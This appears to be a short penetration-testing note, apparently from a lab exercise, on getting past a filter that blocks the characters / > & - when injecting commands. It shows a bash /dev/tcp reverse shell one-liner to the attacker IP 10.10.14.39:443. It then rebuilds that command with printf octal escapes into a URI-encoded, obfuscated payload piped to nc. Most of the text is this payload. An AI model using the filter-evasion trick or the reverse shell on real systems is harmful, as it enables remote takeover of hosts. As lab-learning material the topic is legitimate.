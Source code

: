 ```yaml
---
description: >-
  Characters '/ > & -' are not processed. But we want a reverse tcp one liner.
  We can workaround these characters using the following methods
---
```


# Using ENV to escape Bad Characters

Basically our reverse shell command /bin/bash -i &gt;& /dev/tcp/10.10.14.39/443 0&gt;&1 will not be executed successfully as / characters are being replaced. How do we get around this? 

If Env contains a variable we can use. For example, the `/` character is being escaped during our exploitation phase to get a reverse shell. 

```bash
# Env contains a variable
OLDPWD=/
HOME=/
PHP_FCGI_MAX_REQUESTS=500
PATH=/sbin:/bin:/usr/sbin:/usr/bin:/usr/local/bin:/usr/local/sbin
LANG=en_US.ISO8859-1
PHP_FCGI_CHILDREN=1
PWD=/var/db/rrd

```

Looking at the above Env values We can replace `'$(HOME)'` with `/`

And format the `'$LANG'` variable as such IN NON-BSD:

![](../.gitbook/assets/image%20%2827%29.png)

But If the OS is BSD format so we are not able to format it like above, instead we use linux printf

![](../.gitbook/assets/image%20%2821%29.png)

We can test out we will print out a reverse shell command with replaced badcharacters

```bash
# - character
a=$(printf "\55")	

# / character
b=$(printf "\57")	

# & character
c=$(printf "\46")

# > character
d=$(printf "\76")
```

For this example, since the full payload will be URI encoded, the space characters will be encoded as '+'. The reverse shell payload will now be

```text
a=$(printf+"\55");b=$(printf+"\57");c=$(printf+"\46");d=$(printf+"\76");echo+${b}bin${b}bash+${a}i+${d}${c}+${b}dev${b}tcp${b}10.10.14.39${b}443+0${d}${c}1|nc+10.10.14.39+443
```

Which converts successfully to the reverse shell command that was not working previously

![](../.gitbook/assets/image%20%2825%29.png)

